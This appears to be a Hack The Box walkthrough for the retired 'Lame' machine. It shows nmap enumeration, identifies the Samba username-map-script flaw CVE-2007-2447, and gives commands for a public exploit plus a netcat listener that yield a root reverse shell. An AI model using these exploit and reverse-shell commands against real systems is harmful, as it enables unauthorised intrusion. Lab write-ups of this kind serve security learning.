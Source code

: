 # 

Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
# Info

- _OS_ - Linux
- _Difficulty_ - Easy
- _Points_ - /
- _Release_ - 14 Mar, 2017
- _IP_ - 10.10.10.3

__________________________________________________________
# Enumeration 

```nmap 10.10.10.3 -sC -sV -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 12:58 CEST
Nmap scan report for 10.10.10.3 (10.10.10.3)
Host is up (0.055s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  @�LV      Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h00m21s, deviation: 2h49m45s, median: 19s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-09-15T06:59:20-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.95 seconds
```

Here we can see that there is no http or https open ports so we can check out the services versions we can see in the nmap scan.

After going through services and googling we can see that there is known Samba vulnerability:

https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447

After a research about this vulnerability we could learn this:

To exploit this vulnerability, we would send a specially crafted request to the Samba server, taking advantage of the username map script feature. By doing so, we can execute arbitrary code with the privileges of the Samba server process, potentially gaining control over the server.

On Github we can find the exploit for this exact CVE and usage guide:

https://github.com/amriunix/CVE-2007-2447

![[Pasted image 20230915145219.png]]

# Exploitation

Now we are gonna install this exploit and use it against our target!

We can see our IP address by running ``ifconfig`` 

![[Pasted image 20230915145611.png]]


```python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>```

- `RHOST` -- The target address
- `RPORT` -- The target port (TCP : 139)
- `LHOST` -- The listen address
- `LPORT` -- The listen port

Which means mine command should look like this:

`python usermap_script.py 10.10.10.3 139 10.10.14.5 1234`

**Before running the exploit we should run Netcat listener like this:**

`nc -lvnp 1234`

After running the exploit we get the shell as the root!

![[Pasted image 20230915150428.png]]


